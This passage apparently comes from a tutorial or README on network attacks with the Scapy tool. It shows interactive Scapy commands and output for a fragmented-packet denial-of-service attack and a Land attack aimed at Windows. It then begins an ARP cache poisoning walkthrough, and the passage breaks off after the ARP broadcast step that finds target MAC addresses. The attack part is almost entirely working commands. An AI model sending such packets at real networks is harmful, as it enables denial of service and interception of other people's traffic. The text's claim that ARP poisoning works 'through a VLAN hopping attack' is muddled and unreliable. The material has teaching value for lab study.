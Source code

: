 ```
>>> send(IP(dst="192.168.43.1", id=42, flags="MF")/UDP()/("X"*10))                                                                                                    
.
Sent 1 packets.
>>> send(IP(dst="192.168.43.1", id=42, frag=48)/("X"*116))                                                                                                            
.
Sent 1 packets.
>>> send(IP(dst="192.168.43.1", id=42, flags="MF")/UDP()/("X"*224))                                                                                                   
.
Sent 1 packets.
>>>
```
<b><i>Land attack (designed for Microsoft Windows):</i></b>

```
>>> send(IP(src="10.0.0.5",dst="192.168.43.246")/TCP(sport=135,dport=135))                  
.
Sent 1 packets.
>>>
```

<b><i>[=>  ARP cache poisoning](https://medium.com/datadriveninvestor/arp-cache-poisoning-using-scapy-d6711ecbe112)</i></b>

This attack prevents a client from joining the gateway by poisoning its ARP cache through a VLAN hopping attack.

Step 1: Finding out the MAC address of the target and the Gateway

To find the MAC address of the target and the gateway, we will send a broadcast message for both of them.

So we design the ARP broadcast request for IP address= 192.168.43.1(gateway)

> Note: In ARP layer, hwsrc and hwdst represent MAC address of source and destination respectively, while psrc and pdst represent the IP address of source and destination respectively.


```
>>> arpbroadcast=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.43.1")
>>> arpbroadcast.show()                                                                                                                                               
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:23:ff:90
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:23:ff:90
     psrc= 192.168.43.225
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.43.1
>>>
```
```
>>> received=srp(arpbroadcast, timeout=2)                                                                                                                             
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>>
```